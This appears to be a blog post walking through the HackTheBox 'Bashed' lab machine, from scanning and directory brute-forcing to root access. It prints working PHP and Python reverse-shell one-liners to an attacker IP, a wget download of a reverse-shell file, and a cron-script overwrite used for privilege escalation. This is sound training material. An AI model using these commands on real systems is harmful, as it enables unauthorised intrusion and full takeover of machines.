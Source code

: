 ```yaml
---
layout: post
title: CTF Walkthrough - HacktheBox Bashed
toc: true
subtitle: Retired Machine
comments: false
---
```


## Bashed ![propic](/pictures/bashed/bashedpic.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/bashed 10.10.10.68
```
![bashednmap](/pictures/bashed/bashednmap.png)

There is an open port 80 (http) from the default nmap script. We can visit the web page from your browser to look for clues.

![bashedhomepage](/pictures/bashed/bashed_homepage.png)

There is nothing too interesting from the initial look so I will run gobuster to identify any hidden directories.

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![basheddirb](/pictures/bashed/bashed_dirb.png)

Off the bat, there are several subdirectories that pop up. I navigate to /dev and see the phpbash.php file. I click on the php file and obtain a webshell.

![bashedwebshell](/pictures/bashed/bashed_webshell.png)

Next, I want to create a persistent/reverse shell, so I create a listener with netcat:
```
nc -lvnp 1234
```
Once the listener is running, I google pentestmonkey reverse shell cheat sheet and look for a php reverse shell command:
```
php -r '$sock=fsockopen("10.10.14.8",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
This does not work, so I navigate to /var/www/html and view the uploads directory since that was a listed subdirectory that can be hit from the web i.e. 10.10.10.68/uploads.

From my attacker box, I run the command below to find a php reverse shell file to upload to the target based on the following keywords:
```
locate php reverse
```
I moved the php-reverse-shell.php file to /tmp. I update the file to listen on my attacker host ip and started up an http server via python with the following commands:
```
cp -r /usr/share/webshells/php/php-reverse-shell.php /tmp/php-reverse-shell.php
cd /tmp
python3 -m http.server 80
```
Now that the attacker box's http server is up and running, I can run wget from /var/www/html/uploads to obtain the file from the target's box through the obtained web shell:
```
wget 10.10.14.8/php-reverse-shell.php
```
Next, I ensure my netcat listener is still active over port 1234 and navigate to 10.10.10.68/uploads/php-reverse-shell.php on my browser. 

And voila, I have a reverse shell. I run the following command to upgrade the shell to a TTY:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Next is to escalate privileges. To check my current permissions, I run the command:

```
sudo -l
```
This lists that I can run all commands under the user: scriptmanager.

So, I can go ahead and run the command to get a bash shell as the scriptmanager user:
```
sudo -u scriptmanager bash
```
I run an ls-la and see that scriptmanager owns scripts/test.py which is writing to scripts/test.txt. It appears that test.txt is owned under root.

Since test.py is writing to test.txt, this means that root has a cronjob scheduled for this python script to run. This means that if the python script runs a reverse shell, it will be under root since root has the job under its ID.So, I open up a reverse shell cheatsheet from pentestmonkey and look for a python reverse shell.

I attempt to update the script via vim, but the text editor is wonky. So, I decide to delete the file's content with the command:
```
sed -i "d" test.py
```
Next, I echo each line into the python file:
```
echo 'import socket,subprocess,os' >> test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.8",1234))' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2)' >> test.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> test.py
cat test.py
```
The cat command will show the contents of test.py having all the required lines for the reverse shell to complete. Next, I open up the listener via netcatover 1234 on my attack box, and get the root reverse shell.

![bashedroot](/pictures/bashed/bashed_root.png)
